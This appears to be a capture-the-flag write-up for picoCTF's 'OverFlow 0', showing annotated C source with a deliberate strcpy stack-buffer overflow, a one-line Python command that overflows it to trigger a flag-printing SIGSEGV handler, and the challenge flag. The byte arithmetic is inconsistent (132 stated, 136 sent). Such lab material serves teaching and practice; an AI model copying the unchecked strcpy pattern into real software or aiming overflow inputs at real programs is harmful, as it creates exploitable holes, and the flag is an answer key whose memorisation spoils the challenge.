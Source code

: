 # OverFlow 0 

Points : 100

# Question

This should be easy. Overflow the correct buffer in this [program](vuln) and get a flag. Its also found in /problems/overflow-0_3_dc6e55b8358f1c82f03ddd018a5549e0 on the shell server. [Source](vuln.c).

# Hint 

Find a way to trigger the flag to printIf you try to do the math by hand, maybe try and add a few more characters.
Sometimes there are things you aren't expecting.


# Solution

By examin the source code we can see that :

``` C

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];		<-------------------- We create new buffer size 128
  strcpy(buf, input);		<--------- We copy our input to the buffer using strcpy (which is vulnerable to buffer over flow)
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);          <-------- If we get SIGSEGV then we jump to sigsegv_handler which print the flag
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {                              <------ if our input is > 1 then we call vuln function 
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}

```

basically if we mange to cause a SIGSEGV we will get the flag .

since our buffer is 128 and we have another 4 bytes of ebp and 4 bytes of the return address , we need to overflow with 132 bytes.

```./vuln $(python -c "print 'A'*(128+8)")```

![](overflow0.png)


# Flag
picoCTF{3asY_P3a5y1fcf81f9}

